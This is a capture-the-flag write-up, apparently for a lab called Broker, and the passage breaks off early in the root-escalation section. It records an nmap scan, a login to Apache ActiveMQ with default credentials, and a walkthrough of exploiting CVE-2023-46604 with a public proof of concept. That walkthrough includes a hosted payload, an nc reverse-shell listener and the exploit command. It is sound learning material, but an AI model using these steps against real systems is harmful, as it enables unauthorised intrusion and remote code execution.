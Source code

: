Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
		* `python -m http.server 8081`
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* The target port is **NOT** port 80, but 61616
			* port 80 is the UI
			* port 61616 is the default port it's running on
* This will call back as a reverse shell for the user `activemq`
	* the home directory has the user flag
# Root
* First thought is to see if root is not password protected with `sudo su` but no luck
* I then decided to 